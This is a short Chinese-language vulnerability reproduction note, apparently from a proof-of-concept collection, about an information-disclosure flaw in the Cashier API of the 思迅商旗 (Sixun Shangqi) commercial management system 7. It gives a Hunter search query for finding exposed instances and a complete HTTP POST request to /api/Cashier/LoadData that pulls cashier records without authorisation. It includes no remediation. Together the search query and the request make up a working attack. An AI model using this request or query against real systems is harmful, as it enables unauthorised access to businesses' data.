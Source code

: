 # 思迅商旗商业管理系统7 Cashier存在信息泄露漏洞

# 一、漏洞简介
思迅商旗商业管理系统是基于互联网部署的全新零售管理系统。提炼各架构优势之大成，打造全新互联网产品。思迅商旗商业管理系统Cashier存在信息泄露漏洞。

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 思迅商旗商业管理系统7

# 三、资产测绘
+ hunter`app.name=="思迅商旗"`
+ 特征

![1705060048606-5d05fc49-9ceb-4db7-84e0-7304c7456bf4.png](./img/50UcaSwGuz9_KosN/1705060048606-5d05fc49-9ceb-4db7-84e0-7304c7456bf4-954273.png)

# 四、漏洞复现
```java
POST /api/Cashier/LoadData HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Length: 68
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cache-Control: no-cache
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

loadAll=false&cashier_id=&gridFlag=CashierList&page=1&rows=60
```

![1705060351817-349ac876-e506-4b44-b896-a17b0dcefa03.png](./img/50UcaSwGuz9_KosN/1705060351817-349ac876-e506-4b44-b896-a17b0dcefa03-502881.png)



> 更新: 2024-02-29 23:55:42  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fgmcmt41ci8fdtuz>